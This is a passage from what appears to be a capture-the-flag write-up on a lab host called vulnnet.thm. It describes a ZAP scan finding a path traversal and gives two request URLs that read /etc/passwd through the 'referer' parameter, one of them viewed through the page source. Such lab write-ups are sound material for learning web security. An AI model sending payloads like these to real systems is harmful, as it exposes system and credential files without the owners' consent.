 ### Path Traversal

Starting enumeration with ZAP's active scan feature, we detect a high alert for a path traversal vulnerability.

```
http://vulnnet.thm/index.php?referer=/etc/passwd
```

![](<../../../.gitbook/assets/image (12) (4).png>)

Whilst the path traversal works, the results are not visible unless looking at the source of the `/index.php` page.

```
view-source:https://vulnnet.thm/index.php?referer=%2Fetc%2Fpasswd
```
